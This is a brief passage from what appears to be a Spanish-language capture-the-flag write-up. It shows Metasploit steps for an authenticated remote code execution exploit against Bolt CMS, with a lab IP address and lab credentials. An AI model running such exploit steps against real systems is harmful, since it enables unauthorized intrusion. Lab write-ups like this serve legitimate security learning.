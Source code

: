 
---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Configuramos el exploit en base a lo que nos requiere siguiendo estos pasos:

1. `use 0`. ==exploit/unix/webapp/bolt_authenticated_rce==
2. `show options` (falta LHOST, RHOST, USERNAME, PASSWORD )

<p align="center">
    <img src="Imagenes/65.png" width="1000">
</p>

3. `set PASSWORD boltadmin123`
4. `set RHOST 10.10.143.132`
5. `set USERNAME bolt`
6. `run`
